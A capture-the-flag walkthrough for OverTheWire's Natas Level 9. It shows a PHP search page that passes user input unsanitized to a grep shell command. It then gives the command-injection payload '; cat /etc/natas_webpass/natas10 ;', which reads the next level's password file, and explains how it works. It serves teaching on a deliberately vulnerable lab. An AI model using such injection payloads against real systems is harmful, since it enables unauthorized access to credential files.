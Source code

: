 # Natas Level 9
This level deals with command injection.

## Quest
We are present with a search box. I type `hello` in searchbox and get the following output.

![Level 9 Image](./images/Level9.png)

The backend PHP code is below, Lets comment it
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {   // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];               // If its there, assign it to var $key
} 

if($key != "") {                              // If key is not empty
    passthru("grep -i $key dictionary.txt");  // use it to run a shell command (Bad Practise!)
}
?>
```

<br/>

## Solution
From the above code, we can see that user input is passed to OS command without any sanitization, this code should be vulnerable to command injection.<br/><br/>
Our goal is to get password for the next level, i.e. access  `/etc/natas_webpass/natas10` .

<span id="green">Our payload  --></span> `; cat /etc/natas_webpass/natas10 ;` <br/>
_Terminate the `grep` command with `;` and view the password file and then terminate `cat` command with `;`_

<br/><br/>
As evident from below screenshot, this gets us password for next Level.

![Level 9 solution](./images/Level9_solution.png)


<br/>

### How the payload works
```shell
# If user input is "hello", following command gets executed
grep -i hello dictionary.txt          # Searches dictionary.txt for word hello and displays output

# Now if we put our payload, command becomes
grep -i ; cat /etc/natas_webpass/natas10 ; dictionary.txt   #  ; terminates command
```
_`;` terminates `grep` command, runs our `cat` command and terminates it again._

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
